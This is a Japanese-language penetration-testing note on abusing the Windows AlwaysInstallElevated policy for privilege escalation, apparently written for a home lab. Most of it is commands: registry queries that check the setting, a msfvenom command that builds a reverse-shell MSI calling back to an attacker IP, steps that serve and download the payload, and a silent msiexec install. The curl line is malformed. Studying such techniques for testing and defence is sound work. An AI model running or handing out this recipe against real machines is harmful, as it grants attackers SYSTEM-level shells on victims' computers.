 ## AlwaysInstallElevated

windowsインストーラー(msi)を実行すると、常にシステム特権でインストールを行う

* AlqaysInstallElevatedの設定を確認する

  ```
  reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
  ```

  ![image-20220831124548999](../../../TIL/TIL/Penetration/img/image-20220831124548999.png)

  ```
  reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
  ```

  ![image-20220831124631325](../../../TIL/TIL/Penetration/img/image-20220831124631325.png)

* kaliでmsfvenomでpayload作成してあげてwin10vmに配送

  ```
  msfvenom -f msi -p windows/x64/shell_reverse_tcp LHOST=192.168.22.139 LPORT=12345 > evil.msi
  ```

  ```
  python -m http.server 8000
  ```

  ```
  curl -O http:192.168.22.139:8000/evil.msi /tmp/evil.msi
  ```

* msiを実行

  ```
  msiexec /quiet /qn /i <ファイル名>
  ```

  * msiexec：インストーラー(msi)を実行するツール（Windows 標準搭載)

  * /quiet：進行状況バーのみ表示

  * /qn：何も表示しない

  * /i：インストーラーの指定